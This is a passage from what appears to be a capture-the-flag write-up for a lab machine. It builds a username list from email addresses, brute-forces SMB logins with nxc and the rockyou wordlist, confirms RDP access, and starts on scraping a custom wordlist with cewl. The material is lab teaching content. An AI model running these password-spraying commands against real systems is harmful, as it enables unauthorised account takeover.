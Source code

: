 I also created a "possible" username file with this command:
```sh
cat emails.txt | awk -F\@ '{ print $1 }'
```
This gave me this nice list:
```
oaurelius
wrohit
lhedvig
tchikondi
pcathrine
fstamatis
```
{: file='usernames.txt'}

## Way 1

The first way is the easy one and the one I had initially solved the challenge with. You can simply brute force the username list we have made against SMB with `nxc`. This is the quite risky way in a real environment, but at the time of doing this machine I just took the risk.

```sh
nxc smb 10.10.207.204 -u usernames.txt -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding
```

After about 5 minutes or so you should get a result.

![](/assets/blog/You-Got-Mail/pass.png)

To check if we have RDP as this user I used this command:
```terminal
$nxc rdp 10.10.207.204 -u "wrohit" -p "PASSWORD_YOU_FOUND"
RDP         10.10.207.204   3389   BRICK-MAIL       [*] Windows 10 or Windows Server 2016 Build 17763 (name:BRICK-MAIL) (domain:BRICK-MAIL) (nla:True)
RDP         10.10.207.204   3389   BRICK-MAIL       [+] BRICK-MAIL\wrohit:PASSWORD_YOU_FOUND (Pwn3d!)
```

We have access to RDP with that user, you can login to RDP with `Remmina` or any other tool and answer question 1 and 2. For question 3 go [here](#mail-server-leak).

## Way 2

This is the more difficult way. For this you first need to create a custom wordlist from the main page.
```sh
cewl --lowercase https://brownbrick.co/index.html > wordlist.txt
```
